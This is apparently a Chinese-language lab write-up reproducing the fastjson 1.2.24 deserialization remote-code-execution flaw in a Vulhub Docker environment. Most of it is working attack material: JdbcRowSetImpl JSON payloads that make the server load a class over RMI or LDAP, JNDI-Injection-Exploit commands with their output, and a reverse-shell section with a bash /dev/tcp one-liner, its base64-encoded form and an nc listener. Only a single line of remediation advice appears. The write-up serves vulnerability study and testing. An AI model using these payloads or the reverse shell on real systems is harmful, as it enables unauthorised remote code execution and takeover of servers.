# fastjson 1.2.24 反序列化导致任意命令执行漏洞


### 1.1、漏洞描述

FastJson是Alibaba的一款开源Json解析库，可用于将Java对象转换为其Json表示形式，也可以用于将
Json字符串转换为等效的Java对象。近几年来FastJson漏洞层出不穷。RCE漏洞的源头：17年FastJson爆出的1.2.24反序列化漏洞。
关于FastJson1.2.24反序列化漏洞，简单来说，就是FastJson通过parseObject/parse将传入的字符串反序
列化为Java对象时由于没有进行合理检查而导致的。

### 1.2、漏洞等级

高危

### 1.3、影响版本

1.2.24

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/fastjson/1.2.24-rce

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8090/`即可看到



发送测试数据：

```json
{"name":"hello", "age":20}
```



#### 2、漏洞检测

使用`BurpSuite`扩展插件[FastjsonScan](https://github.com/Maskhe/FastjsonScan)进行漏洞检测




POC：

```bash
{
    "handsome":{
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName":
    "rmi://wvvlunpw9mk6u4suzoi884ibw22sqh.oastify.com/aaa",
    "autoCommit":true
    }
}
```

使用[dnslog](http://dnslog.cn/)测试






#### 3、漏洞验证

利用[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)工具开启`RMI`服务器


在`/tmp`目录下创建`hello`文件

```bash
┌──(kali㉿kali)-[~/tools/JNDI-Injection-Exploit]
└─$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hello" -A "192.168.80.141"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[ADDRESS] >> 192.168.80.141
[COMMAND] >> touch /tmp/hello
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/52e3fa
ldap://192.168.80.141:1389/52e3fa
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.80.141:1099/atawc5
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/gfk0fp
ldap://192.168.80.141:1389/gfk0fp

----------------------------Server Log----------------------------
2023-09-08 01:38:44 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-08 01:38:44 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-08 01:38:44 [LDAPSERVER] >> Listening on 0.0.0.0:1389

```



发送POC到FastJson服务器，通过RMI协议远程加载恶意类

```bash
{
    "handsome":{
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName": "rmi://192.168.80.141:1099/atawc5",
    "autoCommit":true
    }
}
```




验证：



### 1.5、深度利用


#### 1、GetShell

构造反弹 Shell命令：



```bash
bash -i >& /dev/tcp/192.168.80.141/1234 0>&1


bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
```

监听`1234`端口

```bash
nc -lvp 1234
```

开启RMI服务

```bash
┌──(kali㉿kali)-[~/tools/JNDI-Injection-Exploit]
└─$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}" -A "192.168.80.141"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[ADDRESS] >> 192.168.80.141
[COMMAND] >> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/qkgjya
ldap://192.168.80.141:1389/qkgjya
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/n9qirm
ldap://192.168.80.141:1389/n9qirm
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.80.141:1099/nmyogr

----------------------------Server Log----------------------------
2023-09-08 01:53:48 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-08 01:53:48 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-08 01:53:48 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```



POC :

```bash
{
    "handsome":{
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName": "ldap://192.168.80.141:1389/qkgjya",
    "autoCommit":true
    }
}
```




获得Shell



### 1.6、修复建议

升级版本到最新